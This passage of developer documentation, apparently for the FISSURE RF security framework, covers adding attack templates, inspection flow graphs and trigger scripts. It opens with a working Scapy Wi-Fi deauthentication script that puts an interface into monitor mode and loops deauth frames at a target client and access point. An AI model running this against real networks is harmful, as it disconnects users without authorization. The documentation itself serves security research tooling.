        bssid = 'AA:BB:CC:11:22:33'         # Access Point MAC address  
        iface = 'wlan0'	                    # Wireless interface name 
        channel = 1                         # Wireless channel
        interval = 0.01                     # Scapy interval
        arg_names = ['client','bssid','iface','channel','interval']
        arg_values = [client, bssid, iface, channel, interval]

        return (arg_names,arg_values)


    if __name__ == "__main__":

        # Default Values
        client = '00:11:22:33:44:55'        # Target MAC address
        bssid = 'AA:BB:CC:11:22:33'         # Access Point MAC address  
        iface = 'wlan0'                     # Wireless interface name 
        channel = '1'                       # Wireless channel
        interval = '0.01'                   # Scapy interval

        # Accept Command Line Arguments
        try:
            client = sys.argv[1]
            bssid = sys.argv[2]
            iface = sys.argv[3]
            channel = sys.argv[4]
            interval = sys.argv[5]
        except:
            pass

    #################################################
    
        # Create Frame
        packet = RadioTap()/Dot11(type=0, subtype=12, addr1=client, addr2=bssid, addr3=bssid)/Dot11Deauth(reason=7)

        # Set Monitor Mode and Channel
        os.system("sudo ifconfig " + iface + " down") 
        os.system("sudo iwconfig " + iface + " mode monitor") 
        os.system("sudo ifconfig " + iface + " up") 
        os.system("sudo iwconfig " + iface + " channel " + channel) 
	
        # Send Frame  
        sendp(packet, iface=iface, inter=float(interval), loop=1)

**Uploading Attack Files**

Python files can be uploaded to FISSURE within the *Library>>Add* tab by choosing a protocol and selecting "Attack". The file type must be set to "Python2 Script" or "Python3 Script" and the file must have a valid .py extension. Attacks added to the library and named with a proper "Attack Template Name" will immediately show up in the Attack tree widget.
   
Inspection Flow Graphs
======================

Inspection flow graphs can be added to FISSURE to perform frequently used analysis on live streams from SDRs or directly on prerecorded data files. Flow graph Python files (.py) are called directly with Python2/3 and use the GNU Radio "parameter" block as arguments to the Python call. This enables variables found in blocks that do not utilize callbacks (like IP address or serial number) to be changed prior to runtime. The following are instructions for creating a new inspection flow graph within the *IQ Data>>Inspection* tab.

.. image:: /pages/Images/inspection1.png

**Location**

Inspection flow graphs must be placed in the ``/FISSURE/Flow Graph Library/maint-3.10/Inspection Flow Graphs/`` or ``/FISSURE/Flow Graph Library/maint-3.10/Inspection Flow Graphs/File/`` directories. Refer to other inspection flow graphs as examples when creating new flow graphs. 

**library.yaml**

The names of inspection flow graphs are assigned to Python files within the *library.yaml* file. Assign names under the applicable hardware type or under "File" if the new flow graph will be used on IQ files. 

.. code-block:: console

    Inspection Flow Graphs:
         802.11x Adapter:
         - None
         Computer:
         - None
         File:
         - instantaneous_frequency.py
         - signal_envelope.py
         - waterfall.py
         HackRF:
         - instantaneous_frequency_hackrf.py
         - signal_envelope_hackrf.py
         - time_sink_hackrf.py
         - time_sink_1_10_100_hackrf.py
         - waterfall_hackrf.py

**GNU Radio**

The following are helpful tips for configuring the GNU Radio flow graph:

- The "Options" block ID must match (without the extension) what is entered in the *library.yaml* file
- Keep the parameter blocks as a string type and apply conversions within other blocks
- Add "QT GUI Chooser" blocks for variables that will be changed during runtime such as frequency and sample rate. Fill out the GUI Hints to make it look nice.
- Follow examples of other flow graphs on how to configure device/IP addresses, serial numbers, and similar arguments for SDR blocks. This will allow FISSURE-specific features like the IQ hardware button to pass information into the flow graph properly.
- Parameter blocks will replace '_' with '-' when using variables names as command line arguments for the flow graph Python call (FISSURE will handle this)
- Enter filepath and sample rate as "filepath" and "sample_rate" in GNU Radio variable names

**Dashboard**

Double-click/load an IQ file in the IQ Data tab Data Viewer and enter sample rate and frequency information prior to loading a file-based inspection flow graph. These values will automatically copy over to the table if available.

Creating Triggers
=================

There are four major steps in creating a new trigger for use in single-stage attacks, multi-stage attacks, archive replay, and autorun playlists: building the Python script, adding widgets to .ui file in QtDesigner, updating the Triggers Dialog slots, and adding information to the FISSURE library.yaml file.

**Scripting**

Triggers consist of a Python3 file that accepts input arguments provided by the FISSURE Dashboard and loops until a condition is satisfied. The trigger files are stored in the ``./Flow Graph Library/maint-3.10/Triggers/`` directory. Trigger scripts can call secondary programs like GNU Radio flow graphs and monitor output such as text printed to stdout. A value of 0 is returned if the trigger is successful and -1 if an error was caught. Two examples of trigger scripts are provided below. The first waits until a specific time and the second reads text produced from a flow graph.

.. code-block:: python

    # Choose File
    import time
    from dateutil import parser
    import sys

    def main():
        # Accept Command Line Arguments
        try:
            trigger_time = sys.argv[1]
            trigger_time = parser.parse(trigger_time).timestamp()
        except:
            print("Error accepting trigger time argument. Exiting trigger.")
            return -1

        while time.time() < trigger_time:
            time.sleep(.1)
            
        return 0

    if __name__ == "__main__":
        main()

.. code-block:: python

    # Choose Fileimport sys
    import time
    import subprocess
    import os

    def main():
        # Accept Command Line Arguments
        try:
            hardware = str(sys.argv[1])
            matching_text = str(sys.argv[2])
            #matching_text = "Bits: 01100000100111110000000011111111"
        except:
            print("Error accepting X10 demod arguments. Exiting trigger.")
            return -1

        # Choose the Flow Graph
        if "USRP B2x0" in hardware:
            filepath = os.path.dirname(os.path.realpath(__file__)) + "/X10_OOK_USRPB2x0_Demod.py"
        else:
            return -1
            
        # Start the Flow Graph
        process = subprocess.Popen(["python3", filepath], stdout=subprocess.PIPE, universal_newlines=True)
    
        # Iterate over stdout to print the output in real-time
        try:
            for line in iter(process.stdout.readline, ''):
                print(line, end='')  # Print the line without adding additional newline

                # Check if the match_text is present in the output
                if matching_text in line:
                    print("Match found in stdout. Exiting both programs.")
                    process.terminate()
                    return 0
            process.stdout.close()
            process.wait()
        finally:
            pass
        
    if __name__ == "__main__":
        main()

**QtDesigner**

To add a new trigger to the Trigger Options window, first open the triggers.ui file in QtDesigner. Second, insert a new page into the stacked widget and add widgets for user input. Refer to previous pages for examples and be mindful of the start of objectNames adhering to the stylesheet formatting.

**Triggers Dialog Slots**

The TriggersDialogSlots.py file needs to be updated for a new trigger to handle initialization, populating default values, and formatting accepted parameters. Modify these functions and follow the existing triggers for examples: _slotTriggerChanged(), _slotAddClicked(). Custom slots for widgets can be created but need to be connected in TriggersDialog.py

**Library**

The library.yaml file stores the default values for triggers and the names/locations of the Python3 scripts that are executed. The following is an example entry into the Triggers dictionary in library.yaml.

.. code-block:: console

    Triggers:
        Acoustic:
            Sound Threshold:
                Default Settings:
                        Duration: '0.1'
                        Sample Rate: '44100'
                        Threshold: '0.2'
                File: sound_threshold.py
                Type: Python3 Script